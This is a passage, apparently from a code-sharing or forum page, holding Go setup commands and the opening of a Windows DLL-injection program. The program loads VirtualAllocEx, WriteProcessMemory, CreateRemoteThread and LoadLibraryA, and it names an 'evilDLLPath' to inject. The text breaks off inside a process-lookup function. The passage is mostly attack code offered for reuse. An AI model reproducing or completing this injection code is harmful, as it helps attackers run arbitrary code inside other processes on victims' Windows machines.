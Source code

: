 ```  
go mod init example-5
```  

**then**

```  
go get -u golang.org/x/sys/windows
```  

**I would honestly leave it out, and refactor this based on the previous code I provided.**  

- example-5.go  

```go  
package main

import (
	"fmt"
	"log"
	"os"
	"strings"
	"syscall"
	"unsafe"

	"golang.org/x/sys/windows"
)

var (
	kernel32DLL              = syscall.NewLazyDLL("kernel32.dll")
	loadLibraryA             = kernel32DLL.NewProc("LoadLibraryA")
	virtualAllocEx           = kernel32DLL.NewProc("VirtualAllocEx")
	writeProcessMemory       = kernel32DLL.NewProc("WriteProcessMemory")
	createRemoteThread       = kernel32DLL.NewProc("CreateRemoteThread")
	createToolhelp32Snapshot = kernel32DLL.NewProc("CreateToolhelp32Snapshot")
	process32FirstW          = kernel32DLL.NewProc("Process32FirstW")
	process32NextW           = kernel32DLL.NewProc("Process32NextW")
)

const (
	PROCESS_QUERY_INFORMATION = 0x0400
	PROCESS_VM_WRITE          = 0x0020
	PROCESS_VM_OPERATION      = 0x0008
	PROCESS_CREATE_THREAD     = 0x0002
	MEM_RESERVE               = 0x00002000
	MEM_COMMIT                = 0x00001000
	TH32CS_SNAPPROCESS        = 0x00000002
	MAX_PATH                  = 260
	PROCESS_ALL_ACCESS        = PROCESS_QUERY_INFORMATION | PROCESS_VM_WRITE | PROCESS_VM_OPERATION | PROCESS_CREATE_THREAD

	evilDLLPath     = "c:\\gob-server.dll"
	evilDLLFuncName = "GobServer"
)

func FindProcessID(processName string) (uint32, error) {
	snapshot, _, _ := createToolhelp32Snapshot.Call(uintptr(TH32CS_SNAPPROCESS), 0)
	if snapshot == 0 {
		return 0, fmt.Errorf("Failed to create snapshot. Error: %d", syscall.GetLastError())
	}
	defer syscall.CloseHandle(syscall.Handle(snapshot))

	var entry windows.ProcessEntry32
	entry.Size = uint32(unsafe.Sizeof(entry))
	ret, _, _ := process32FirstW.Call(snapshot, uintptr(unsafe.Pointer(&entry)))
	if ret == 0 {
```
